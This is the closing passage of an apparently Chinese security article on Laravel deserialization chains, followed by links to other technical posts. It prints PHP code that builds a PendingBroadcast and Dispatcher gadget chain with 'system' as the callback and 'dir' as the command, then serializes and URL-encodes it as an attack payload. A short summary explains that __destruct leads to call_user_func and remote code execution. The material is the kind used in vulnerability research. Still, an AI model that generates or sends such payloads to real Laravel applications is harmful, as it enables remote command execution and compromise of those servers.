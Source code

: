 ```
}

namespace Illuminate\Bus {
    class Dispatcher {
        protected $queueResolver;
        public function __construct($queueResolver) {
            $this->queueResolver = $queueResolver;
        }
    }
}

namespace {
    $c = new Illuminate\Bus\Dispatcher('system');
    $b = new Illuminate\Events\CallQueuedListener('dir');
    $a = new Illuminate\Broadcasting\PendingBroadcast($c, $b);
    echo urlencode(serialize($a));
}

```

总结

![](https://mmbiz.qpic.cn/mmbiz_png/ldFaBNSkvHiawuXdB6ia3xLsxlibDoIxR7k2R17hzg44wneSzevDFLn4uDxWBV0tlc3y4q2EybTK1hEJ1O7qF0TGw/640?wx_fmt=png)

相比 laravel 5.8, 可以利用的反序列化链变少了, 但是核心思路没有变, 还是通过 __destruct() 触发 __call 或者 __invoke 函数, 再通过 call_user_func 或 call_user_func_array 进行函数回调达成 RCE

```
- End -


精彩推荐

【技术分享】手把手教你构建vcpkg私有仓库


【技术分享】Gafgyt变种-Jaws僵尸网络的分析报告


【技术分享】透过挑战题教你解析Excel 4.0宏

戳“阅读原文”查看更多内容

```